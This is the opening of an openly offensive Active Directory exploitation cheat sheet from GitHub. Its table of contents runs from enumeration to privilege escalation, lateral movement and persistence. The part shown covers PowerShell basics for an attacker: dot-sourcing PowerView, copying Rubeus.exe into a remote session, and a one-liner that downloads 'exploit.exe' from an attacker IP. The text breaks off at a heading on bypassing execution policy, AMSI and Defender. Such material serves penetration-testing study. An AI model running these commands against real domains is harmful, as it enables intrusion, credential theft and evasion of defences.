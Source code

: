 # Active-Directory-Exploitation-Cheat-Sheet

Overview
---------
- [Powershell Introduction](#powershell-introduction)
- [Domain Enumeration](#domain-enumeration)
- [Local Privilege Escalation](#local-privilege-escalation)
- [Lateral Movement](#lateral-movement)
- [Domain Persistence](#domain-persistence)
- [Domain Privilege Escalation](#domain-privilege-escalation)
- [Cross Forest Attacks](#cross-forest-attacks)
- [Forest Persistence](#forest-persistence)

PowerShell Introduction
-----------------------------------------

### PowerShell Basics

- Import a module

```
PS C:\> Import-Module <modulepath>
```

- List all the commands in a module

```
PS C:\> Get-Command -Module <modulename>
```

- Dot-source a PowerShell script

```
PS C:\> . .\PowerView.ps1
```

- Copy a file using PowerShell

```
PS C:\> Copy-Item .\<local file> \\<hostname>\c$\'Program Files'
OR
PS C:\> Copy-Item -ToSession $sess -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\appadmin\Downloads
```

- Download a file using PowerShell

```
PS C:\> powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP address>/exploit.exe','C:\Users\Public\Desktop\new-exploit.exe')"
```

### PowerShell Scripts: Execution Policy, AMSI, Windows Defender, AppLocker, and Language Modes

- Bypass the PowerShell execution policy feature
